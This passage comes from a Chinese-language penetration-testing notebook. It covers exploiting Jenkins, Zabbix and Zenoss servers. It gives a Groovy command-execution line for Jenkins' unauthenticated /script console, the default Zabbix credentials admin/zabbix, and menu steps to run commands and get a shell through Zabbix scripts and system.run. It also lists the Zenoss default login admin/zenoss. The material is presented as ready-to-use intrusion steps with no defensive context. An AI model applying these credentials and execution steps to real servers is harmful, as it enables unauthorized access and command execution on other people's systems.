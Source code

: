 Jenkins是基于java开发的一种持续集成工具，用于监控持续重复的工作，功能包括：(1)持续的软件版本发布/测试项目；(2)监控外部调用执行的工作。

19.1 漏洞利用 
-----------------------------

- 未授权访问，可直接执行命令 wooyun-2013-028803

直接在url中访问： eg:
http://xx.xx.xx.xx:8080(http://xx.xx.xx.xx:8080/)
(端口视具体情况而定，案例中有3000、8888)

-  <http://ip/script>

java.lang.Runtime.getRuntime().exec(‘id’).getText();
行脚本并回显一句话


20 zabbix默认口令 
=================================

20.1 基础知识 
-----------------------------

Zabbix除了监控功能强大之处，还可以在忘记root密码的时候重置服务器root密码。（这也是一个超级后门）

此外，system.run模块可以执行任意指令（agent在root权限下，不过一般都开启该权限）

20.2 利用方式 
-----------------------------

弱口令进入后台： http://ip/zabbix/ admin / zabbix

攻击方法：

- 尝试system.run执行命令

- 获取zabbix server shell：

Administrator——&gt;Scripts——&gt;修改Commands(例如改为
uname -a)

Monitoring——&gt;Last data——&gt;点击Zabbix
server，执行调用命令



21 zenoss默认口令 
=================================

21.1 基本知识 
-----------------------------

Zenoss
Core是开源企业级IT管理软件-智能监控软件，允许IT管理员依靠单一的WEB控制台来监控网络架构的状态和健康度。Zenoss同时也是开源的网络与系统管理软件。

21.2 漏洞利用 
-----------------------------

ip:8080 admin / zenoss

ip:8080/zport/dmd/Dashboard
